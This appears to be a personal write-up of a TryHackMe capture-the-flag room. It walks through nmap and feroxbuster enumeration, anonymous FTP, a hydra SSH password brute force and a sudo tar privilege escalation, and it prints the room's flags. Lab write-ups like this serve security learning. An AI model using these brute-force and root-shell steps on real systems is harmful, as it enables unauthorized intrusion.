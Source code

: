 
nmap 10.10.217.85 -sC -sV

port 21, 22, and 80 are open. We get information on 21/tcp ftp anonymous login is allowed (FTP code 230)


feroxbuster -u http://10.10.217.86 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --filter-status 404,403 --extract-links

nothing interesting from feroxbuster



ftp 10.10.217.86
login with: "anonymous"

make sure ftp passive mode is off with
`passive`
or 
`passive off`


then
`mget *`
`y`  twice

exit ftp
`bye`


"Who wrote the task list"

cat task.txt

answer: lin


"What service can you bruteforce with the text file found?"
answer: ssh

locks.txt has a list of possible passwords to use


---
we now have a possible username and a list of passwords to try and bruteforce an ssh login:

`hydra -l lin -P locks.txt 10.10.217.86 ssh`

```shell
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-17 19:06:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.217.86:22/
[22][ssh] host: 10.10.217.86   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-17 19:06:14
                                                                                              
```

so the password is:  RedDr4gonSynd1cat3


ssh lin@10.10.217.86


now we are sshed in



now we have to find a user.txt for the user flag which is just on the desktop of lin.
There is no issue just catting it out

`cat user.txt`

now we have the user flag

THM{CR1M3_SyNd1C4T3}

---
# Escalating Privs

`sudo -l`

```shell
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

### notes:
The output of `sudo -l` tells you **what commands the current user (`lin` in this case) is allowed to run with `sudo` privileges, and as which user.**

- `User lin may run the following commands on bountyhacker:` - This indicates the commands `lin` can execute.
    
- `(root)` - This is the crucial part. It means `lin` can run the listed commands **as the `root` user**. If it said `(www-data)` or another user, you'd be escalating to that user, not necessarily full root.

**What sticks out as a possible target?**

**`/bin/tar`** is your target, and it's a very common one for privilege escalation!

**Why `/bin/tar` is a juicy target for privilege escalation:**

`tar` is a powerful archiving utility. While its primary purpose is to create or extract archives, it has features that can be abused when run with `sudo` privileges



I check gtfobins.com for tar and found the following under sudo:

```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

literally just copy and paste this into your shell and now you have root as indicated by the # in the shell. Confirm with `whoami`

now find the root flag

```shell
# find / -name root.txt 2>/dev/null                                                                            
/root/root.txt
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```

